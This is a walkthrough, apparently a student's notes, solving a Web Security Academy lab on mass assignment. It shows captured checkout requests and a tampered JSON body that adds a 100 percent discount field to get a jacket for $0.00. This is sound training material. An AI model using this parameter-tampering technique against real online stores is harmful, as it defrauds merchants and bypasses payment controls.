








#Lab: Exploiting a mass assignment vulnerability
## Lab Description

To solve the lab, **find and exploit a mass assignment vulnerability to buy a Lightweight l33t Leather Jacket**. You can log in to your own account using the following credentials: `wiener:peter`.

Required knowledge
To solve this lab, you'll need to know:

- Why mass assignment may result in hidden parameters.
- How to identify hidden parameters.
- How to exploit mass assignment vulnerabilities.

These points are covered in our API Testing Academy topic.

## Lab Solution

First, to be able to purchase anything, the user has to be log in.



As observed, the `wiener`'s account does not posses any funds to buy the jacket. Therefore, the task is to find a way how to by the jacket for free.



Start with observation of the normal purchase flow. The selected item is added into the cart.


Then to observe a purchase flow, the order is placed.



Upon placing order a several calls are made in sequence.

After pressing `Place order` the `POST` method call is made to the `/api/checkout` endpoint, containing a JSON data,

**HTTP POST Request**
```
POST /api/checkout HTTP/2
Host: 0a200037041dc76385f90998006f0040.web-security-academy.net
Cookie: session=zLmVaEg89Qou5LQllzYMFyyg9Mnso23G

{"chosen_products":[{"product_id":"1","quantity":1}]}

```

Because there is insufficient funds for purchase, the server issue redirect to the location `/cart?err=INSUFFICIENT_FUNDS`

**HTTP Response**

```
HTTP/2 201 Created
Location: /cart?err=INSUFFICIENT_FUNDS
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Following which the browser request multiple `GET` requests.

First `GET` request to endpoint `/cart?err=INSUFFICIENT_FUNDS` is visibly displayed to the user.


However, response to the second `GET` request contains some interesting information. It is the request to the same endpoint as when `Place order` button is pressed, however this time it contains more information, such as `chosen_discount` variable, which was not present in the `POST` request.

**HTTP GET Request**
```
GET /api/checkout HTTP/2
Host: 0a200037041dc76385f90998006f0040.web-security-academy.net
Cookie: session=zLmVaEg89Qou5LQllzYMFyyg9Mnso23G
```

**HTTP Response**
```
HTTP/2 200 OK
Content-Type: application/json; charset=utf-8
X-Content-Type-Options: nosniff
X-Frame-Options: SAMEORIGIN
Content-Length: 153

{"chosen_discount":{"percentage":0},"chosen_products":[{"product_id":"1","name":"Lightweight \"l33t\" Leather Jacket","quantity":1,"item_price":133700}]}
```
However, response to the second `GET` request contains some interesting information. It is the request to the same endpoint as when `Place order` button is pressed, however this time it contains more information, such as `chosen_discount` variable, which was not present in the `POST` request.
This gives an indication to try adding this parameter to the `POST` request, and see if the API will accept the modification.

With intercept turned on, the call to purchase is made again.


However, this time the original `JSON` in the request, is replaced with the content from the precious response from the `GET` request with alteration to ask for 100% discount

```
{
  "chosen_discount":{"percentage":100},
  "chosen_products":[
      {
        "product_id":"1",
        "name":"Lightweight \"l33t\" Leather Jacket",
        "quantity":1,
        "item_price":133700
        }
        ]
}
```



This time, the server send a confirmation and redirection to the page that the order was confirmed



And order was processed with the `$0.00` payment for the jacket.


